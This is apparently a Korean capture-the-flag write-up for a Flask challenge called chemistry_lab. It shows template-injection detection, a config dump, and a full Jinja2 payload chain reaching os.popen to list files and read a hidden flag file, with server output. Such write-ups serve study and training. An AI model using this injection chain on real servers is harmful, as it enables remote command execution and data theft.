

# chemistry_lab
- - - -
문제에 접속을 해 보면 아래와 같은 그림과 find버튼이 봉인다.
* mainpage


find에 어떤 값을 넣어 보았다.
* test


입력값이 그래도 출력 되었다. 문제 설명에서 flask를 언급해서 `{{7*7}}`을 입력해 보았다.
* test_2


flask를 사용하고 있다. 그래서 `{{config.items()}}` 를 입력해보았다.
* config.items()


SECRET_KEY가 flag일줄 알았는데 can you find hidden flag? 가 들어있다. 여기가 아닌가 보다. 그래서 구글링을 좀 해보니 flask에서 system을 사용하는 모듈을 통해 서버에 접근할 수 있다는 내용을 보았다. 그래서 하나씩 찾아보았다. ls를 했더니 flag가 없었다. 그러다 생각난게 can you find hidden flag?였다. 숨긴파일이라는 느낌이여서 ls -al을 해보니 역시 플래그가 있었다.


## payload
- - - -
```
{{[].__class__}}
<class 'list'>

{{[].__class__.__base__}}
<class 'object'>

{{[].__class__.__base__.__subclasses__()[109]}}
<class 'codecs.StreamReaderWriter'>

{{[].__class__.__base__.__subclasses__()[109].__init__}}
<function StreamReaderWriter.__init__ at 0x7f9297b211f0>

{{[].__class__.__base__.__subclasses__()[109].__init__.__globals__["sys"]}}
<module 'sys' (built-in)>

{{[].__class__.__base__.__subclasses__()[109].__init__.__globals__["sys"].modules["os"].popen(%27ls%27).read()}}
dockerfile app.py tmeplates

{{[].__class__.__base__.__subclasses__()[109].__init__.__globals__["sys"].modules["os"].popen(%27ls -al%27).read()}}
total 24 drwxr-xr-x 3 root root 4096 May 1 07:08 . drwxr-xr-x 1 root root 4096 May 1 07:09 .. -rw-r--r-- 1 root root 26 Apr 30 06:41 .flag -rw-r--r-- 1 root root 106 Mar 20 01:11 Dockerfile -rw-r--r-- 1 root root 489 May 1 07:07 app.py drwxr-xr-x 2 root root 4096 Mar 20 01:11 templates

{{[].__class__.__base__.__subclasses__()[109].__init__.__globals__["sys"].modules["os"].popen(%27cat%20.flag%27).read()}}
```


## flag
- - - -


#CTF/IGRUS/web